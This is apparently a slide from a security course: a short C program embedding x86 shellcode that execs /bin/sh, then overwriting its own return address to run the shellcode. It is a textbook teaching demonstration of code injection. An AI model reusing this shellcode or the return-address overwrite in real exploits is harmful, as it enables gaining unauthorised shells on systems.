

#
char shellcode[] = "\xe9\x2a\x00\x00\x00\x5b\xc6\x43\x07\x00"
  "\x89\x5b\x08\xc7\x43\x0c\x00\x00\x00\x00\xba\x00\x00\x00\x00"
  "\x8d\x4b\x08\xb8\x0b\x00\x00\x00\xcd\x80\xbb\x00\x00\x00\x00"
  "\xb8\x01\x00\x00\x00\xcd\x80\xe8\xd1\xff\xff\xff/bin/sh";

void shell() {
  int *ret;
  ret = (int *)&ret + 2;
  (*ret) = (int)shellcode;
}

int main() {
   shell();
   return 0;
}